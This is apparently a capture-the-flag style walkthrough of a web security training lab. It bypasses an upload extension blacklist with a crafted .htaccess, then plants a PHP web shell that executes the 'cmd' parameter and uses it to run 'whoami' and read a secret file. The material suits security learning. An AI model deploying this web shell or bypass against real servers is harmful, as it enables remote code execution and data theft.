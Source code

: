 # 1 - Web shell upload via extension blacklist bypass

Update .htaccess:

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: application/octet-stream

AddType application/x-httpd-php .l33t

```

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/1.png)

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/2.png)

Upload Phpinfo():

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename="test.l33t"
Content-Type: application/octet-stream

<?php phpinfo(); ?>

```

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/3.png)

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/4.png)


Update cmdshell:

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename="cmd.l33t"
Content-Type: application/octet-stream

<?php
if($_GET['cmd']) {
  system($_GET['cmd']);
}
```

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/5.png)

<br>

RCE:

https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net/files/avatars/cmd.l33t?cmd=whoami
carlos

https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net/files/avatars/cmd.l33t?cmd=cat%20/home/carlos/secret
MzrfsTWgFr82UcKq9wFC0hObV7YSVmlq

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/6.png)

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/7.png)
